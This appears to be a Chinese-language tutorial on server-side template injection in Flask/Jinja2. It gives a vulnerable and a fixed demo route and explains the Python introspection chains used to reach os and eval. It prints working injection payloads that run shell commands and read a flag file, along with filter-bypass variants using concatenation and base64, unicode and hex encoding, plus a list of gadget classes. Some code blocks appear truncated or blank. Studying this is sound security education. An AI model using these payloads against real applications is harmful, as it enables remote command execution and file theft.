



# Basics

## Flask&Jinja2

Flask是一个python的轻量级web框架, 类似Java的SSM/SSH这种web框架, 允许使用者构建web应用.

Flask的两大核心组件: 

- Werkzeug

> 一个WSGI的工具包, 用于实现一个Web框架的底层, 例如最基础的接受请求和发送响应.  

- jinja2

> 一个模板引擎, 类似Java的Velocity, 用于渲染生成HTML

### Jinja2语法

- `` for [Statements](https://jinja.palletsprojects.com/en/3.0.x/templates/#list-of-control-structures) 
- `{{ ... }}` for [Expressions](https://jinja.palletsprojects.com/en/3.0.x/templates/#expressions) to print to the template output
- `{# ... #}` for [Comments](https://jinja.palletsprojects.com/en/3.0.x/templates/#comments) not included in the template output

```python
{# note: commented-out template because we no longer use this
    
    	{{ user }}
        ...
    
#}
```

## Flask Demo

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route('/vul')
def vul():
    name = request.args.get('name','bacon')
    t = Template('I am ' + name)
    # t = Template('I am %s'%(name))
    return t.render()

@app.route('/fix')
def fix():
    name = request.args.get('name','bacon')
    t = Template('I am {{username}}')
    return t.render(username=name)

if __name__ == '__main__':
    app.run()
```

以上实现了一个简单渲染用户输入的Demo, 以助于理解jinja2渲染

  

## Python 魔术方法

- **\__class__**

返回type, 返回变量所属的类

```python
>>> 'bacon'.__class__
<class 'str'>
>>> ['bacon'].__class__
<class 'list'>
```

- **\__bases__** , **\__base__**

\__bases__ 返回tuple, 返回类的基类们, 准确来说是直接基类们

\__base__ 返回type, 返回类的基类, 准确来说是直接基类

```python
>>> str.__base__
<class 'object'>
>>> 'bacon'.__class__.__bases__
(<class 'object'>,)
>>> 'bacon'.__class__.__base__
<class 'object'>
```

- **\__mro__**

返回tuple, 返回类的方法解析顺序, 类的mro由父类的mro组成, 且父类排在类的后面

```python
>>> str.__mro__
(<class 'str'>, <class 'object'>)
>>> 'bacon'.__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> class GrandFather():
...     pass
...
>>> class Father(GrandFather):
...     pass
...
>>> class Son(Father):
...     pass
...
>>> Son.__mro__
(<class '__main__.Son'>, <class '__main__.Father'>, <class '__main__.GrandFather'>, <class 'object'>)
```

自此已经有三种方法可以找到object类了

- **\__subclasses__()**

返回dict, 返回类的子类们, 准确来说是直接子类们

```python
>>> object.__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>......]
>>> 'bacon'.__class__.__base__.__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>......]
>>> class Father():
...     pass
...
>>> class Son(Father):
...     pass
...
>>> class Daughter(Father):
...     pass
...
>>> Father.__subclasses__()
[<class '__main__.Son'>, <class '__main__.Daughter'>]
```

自此已经能调用object的子类们的任意方法了

```python
>>> class Father():
...     pass
...
>>> class Son(Father):
...     def __init__(self,):
...             print('init')
...     def messup(self,):
...             print('messup')
...
>>> son = Son().messup()
init
messup
>>> son = Father.__subclasses__()[0]().messup()
init
messup
```

例如python2利用file类的构造方法读文件: 

  

python3利用_frozen_importlib_external.FileLoader类的get_data方法读文件: 

  

- **\__globals__**

> 看到这里不免有点疑问，为什么都能读文件了还要接着往下讲？因为离真正rce还有点距离

返回dict, 返回函数当前命名空间的全局变量们

```python
>>> import os
>>> class Test():
...     def __init__(self,):
...             pass
...
>>> Test().__init__.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'os': <module 'os' from 'C:\\Users\\baconXpy\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>, 'Test': <class '__main__.Test'>}
>>> Test().__init__.__globals__['os'].system('dir')
 Volume in drive C is 本地磁盘
 Volume Serial Number is xx

 Directory of C:\Users\bacon
 ...
```

以上可以看出, 通过寻找引入**os**的类调用**system**或者**popen**这种函数实现rce.

当然, 类也不止这一个, 另外还可以去**\__builtins__** 里找内建函数eval实现rce.

但通常固定的是当作跳板查看global的类的函数: **\__init__**

原因有以下两点: 

- 构造函数每个类都有

- 构造函数被重载的几率比较大

> 至于为什么要被重载, 是因为**\__globals__** 是函数的属性, 而**\__init__** /**\__repr__** 这类魔法函数在没重载之前, 并不是一个函数, 而是C-implemented function的wrapper, 因此没有global属性. 

当然, 使用**\__init__** 完全是处于通用性考虑, 并不是非他不可.

```python
>>> import os
>>> class Test():
...     def f(self,):
...             pass
...
>>> dir(Test())
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'f']
>>> Test().f.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'os': <module 'os' (built-in)>, 'Test': <class '__main__.Test'>}
>>> Test().__init__
<method-wrapper '__init__' of Test object at 0x0000028DE6EEF250>
>>> Test().f
<bound method Test.f of <__main__.Test object at 0x0000028DE6E9C610>>
```

如上, 在**\__init__** 没被重载的时候(slot wrapper/method-wrapper), 通过找类的其余方法也是可行的. 

总的来说, 

构造函数每个类都有, 但不一定重载; 

类自己定义的方法, 每个类名称不统一, 但至少是个函数.

## Exp&Fix

通过对python魔法函数的分析, 不难看出挖ssti和挖反序列化的gadget一样需要 ~~运气~~  耐心, 也 ~~不需要~~ 还没遇到特别通杀的payload. 

见过一个开源的工具但局限性也不小. https://github.com/epinna/tplmap

理解原理后exp也很容易写出一两个. 以找catch_warnings下的eval这个builtin_func为例给出一个poc

```python



    
  
    
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    
  
  



```

  

fix参考 Flask Demo 的fix路由


# 基础Bypass

- 字符串拼接

```python
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}

[].__class__.__base__.__subclasses__()[40]("/fl""ag").read() 

[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read() 

```

- 编码

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

```

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
即
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```


# Appendix

使用了eval的gadgets类

```
warnings.catch_warnings
WarningMessage
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
os._wrap_close
reprlib.Repr
weakref.finalize
```

通过找**_frozen_importlib.BuiltinImporter**类导入**os**模块也可以rce

```python
>>> object.__subclasses__()[84]
<class '_frozen_importlib.BuiltinImporter'>
>>> object.__subclasses__()[84].load_module('os')
<module 'os' (built-in)>
>>> object.__subclasses__()[84].load_module('os').system('whoami')
bacon
```

# Reference

https://stackoverflow.com/questions/10401935/python-method-wrapper-type

https://jinja.palletsprojects.com/en/3.0.x/
